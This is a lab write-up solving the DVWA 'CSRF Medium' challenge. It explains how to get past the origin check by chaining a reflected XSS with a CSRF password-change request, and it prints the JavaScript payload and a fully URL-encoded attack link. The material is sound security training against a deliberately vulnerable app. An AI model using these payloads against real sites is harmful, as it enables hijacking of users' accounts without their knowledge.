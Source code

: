#+TITLE: DVWA - CSRF Medium
#+AUTHOR: Leonardo Tamiano

* Description
  The difference from *low* to *medium* is that now the server checks from
  where it originated the query to change the password. If it
  originated from a domain other than the origin domain of the *dvwa*
  app, then the request is not considered valid. Otherwise it is.

  This means that we cannot simply make the user click the link
  pointing to the CSRF change password endpoint, as in that case the
  origin would be a different site.
  
* Solution
  First we could think of creating a fake HTML page with some
  javascript that triggers a password request to the DVWA site.

  #+begin_src html
<html>
  <head>
    <title> Test! </title>
    <Script>
      var xmlHttp = new XMLHttpRequest();
      var url = "http://evil/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change";
      xmlHttp.open("GET", url, false);
      xmlHttp.send(null);
    </Script>
  </head>
  <body>
    <h1>Hi!</h1>    
  </body>
</html>
  #+end_src

  This approach however does not work because of *CORS*. In particular
  the http://evil website, which is the DVWA, has not enabled CORS,
  and therefore we're not able to use javascript to request data from
  that website using a different origin, which we would be forced to
  were we to attack a client using our html payload.

  To actually weaponize this *CSRF* we need an *XSS* witin the origin of
  interest, which in my particular case is http://evil. For example,
  consider the *XSS* of the *XSS reflected medium* section. We can trigger
  that xss as follows

  #+begin_src html
<Script> alert("1"); </Script>
  #+end_src

  Using this XSS we can trigger the malicious password change request
  with the following XSS script

  #+begin_src html
<Script> var xmlHttp = new XMLHttpRequest(); var url = "http://evil/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change"; xmlHttp.open("GET", url, false); xmlHttp.send(null); </Script>
  #+end_src

  By chaning the XSS with the CSRF we get the following link, which,
  when clicks, changes the password of the currently authenticated
  user within the DVWA platform

  #+begin_example
http://evil/vulnerabilities/xss_r/?name=%3CScript%3E+var+xmlHttp+%3D+new+XMLHttpRequest%28%29%3B+var+url+%3D+%22http%3A%2F%2Fevil%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dtest%26password_conf%3Dtest%26Change%3DChange%22%3B+xmlHttp.open%28%22GET%22%2C+url%2C+false%29%3B+xmlHttp.send%28null%29%3B+%3C%2FScript%3E
  #+end_example
